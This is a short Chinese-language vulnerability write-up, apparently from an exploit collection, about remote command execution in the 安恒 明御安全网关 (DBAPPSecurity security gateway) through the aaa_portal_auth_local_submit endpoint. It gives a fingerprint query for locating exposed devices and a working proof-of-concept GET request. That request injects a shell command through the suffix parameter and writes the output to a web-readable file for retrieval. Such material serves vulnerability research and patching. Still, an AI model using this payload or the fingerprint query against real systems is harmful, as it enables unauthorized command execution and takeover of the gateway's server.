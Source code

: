 # 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

body="/webui/images/basic/login/" && title=="明御安全网关"

## 漏洞复现

登录页面

![image-20230817181110361](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230817181111122-574851174.png)

验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```



![image-20230817181134637](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230817181136974-1376059807.png)

```
/test.txt
```

![image-20230817181152488](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230817181153300-1229403193.png)
